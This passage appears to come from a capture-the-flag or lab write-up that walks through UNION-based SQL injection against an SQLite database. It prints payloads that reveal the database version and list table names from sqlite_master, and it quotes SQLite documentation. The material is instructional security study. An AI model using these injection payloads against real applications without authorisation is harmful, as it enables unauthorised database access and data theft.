 I have used this to show the version of the database.

```sql
' union select 1,2,sqlite_version(),4,5-- - 
```
The result is this one.

![Alt text](ch5_page_images/image-87.png)

Searching information about SQLite I found this.[SQLite](https://www.sqlite.org/schematab.html)

> The schema table can always be referenced using the name "sqlite_schema", especially if qualifed by the schema name like "main.sqlite_schema" or "temp.sqlite_schema". But for historical compatibility, some alternative names are also recognized, including: <br> sqlite_master<br> sqlite_temp_schema<br> sqlite_temp_master

```sql
' union select 1,2,tbl_name,4,5 from sqlite_master-- - 
```

We identify 2 tables. Now we know the name of the table we have to find the numebr of columns and the names.

![Alt text](ch5_page_images/image-88.png)
